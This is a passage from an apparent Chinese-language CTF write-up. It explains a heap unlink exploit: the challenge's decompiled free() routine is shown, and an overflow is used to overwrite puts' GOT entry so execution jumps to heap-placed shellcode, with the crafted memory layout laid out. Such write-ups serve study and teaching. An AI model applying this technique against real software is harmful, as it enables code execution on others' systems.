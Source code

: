 接著就是要利用 unlink 來讓 puts got.plt 指向我們寫的 shellcode，這邊先來看題目實作的 free code：

* buf - chunk 儲存 data 的開頭
* size_adr - chunk 儲存 size 的位置，也就是 fd, bk 會使用到的 address
* buf_bk - bk of current_freed_chunk
* buf_fd - fd of current_freed_chunk
* qword_6020B0 - 儲存 chunk 的 list

```
# list struct
0x6020b0:      0x0000000000603000      0x0000000000000000           # Head  | Nothing
0x6020c0:      0x0000000000603030      0x0000000000603060           # First | Second
```

```c
size_adr = buf-24;
buf_bk = *(_QWORD *)(buf-24+16);
buf_fd = *(_QWORD *)(buf-24+8);
if (buf_bk)
    *(_QWORD *)(buf_bk+8) = buf_fd;                         // 基本上就是讓 buf_bk chunk 的 fd 接到 current_freed_chunk->fd
if (buf_fd)
    *(_QWORD *)(buf_fd+16) = buf_bk;                        // 讓 buf_fd chunk 的 bk 接到 current_freed_chunk->bk
*(_QWORD *)(size_adr+8) = *(_QWORD *)(qword_6020B0+8)       // 讓 current_freed_chunk->fd 接到除了 Head 的第一個 chunk
if (*(_QWORD *)(qword_6020B0+8))
    *(_QWORD *)(*(_QWORD *)(qword_6020B0+8)+16) = size_adr; // 讓那第一個 chunk 的 bk 接到 current_freed_chunk
*(_QWORD *)(qword_6020B0+8) = size_adr;                     // 讓  Head 的 fd 接到 current_freed_chunk
*(_QWORD *)size_adr &= 0xFFFFFFFFFFFFFFFE;                  // clear inuse bit
```

這邊我利用的是讓 buf_bk chunk 的 fd 接到  `current_freed_chunk->fd` 這行，我把 buf_bk 設成 `puts_got-8` 的地方，然後 `current_freed_chunk->fd` 設成我寫 shellcode 的地方，這樣就會讓 `puts_got` 指向 address of shellcode，這樣一來 `free` 完呼叫 `puts` 時就會跳到 shellcode 上去執行

所以先用 `change` 的 overflow 漏洞來改寫 Second Chunk 的 struct，之後再來 free Second Chunk，把他 overflow 成以下樣子：

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x4141414141414141      0x0000000000000000
0x603040:      0x0000000000000000      0x0000000000000031           # Second message
0x603050:      0x00000000006030a8      0x0000000000602010
0x603060:      0x4242424242424242      0x0000000000000000
0x603070:      0x0000000000000000      0x00000000000003a0           # Top chunk
0x603080:      0x0000000000000000      0x0000000000603048
0x603090:      0x0000000000000000      0x0000000000000000
0x6030a0:      0x0000000000000000      0x00000000000016eb
0x6030b0:      0x0000000000000000      0x0000000000000000
0x6030c0:      shellcode
```

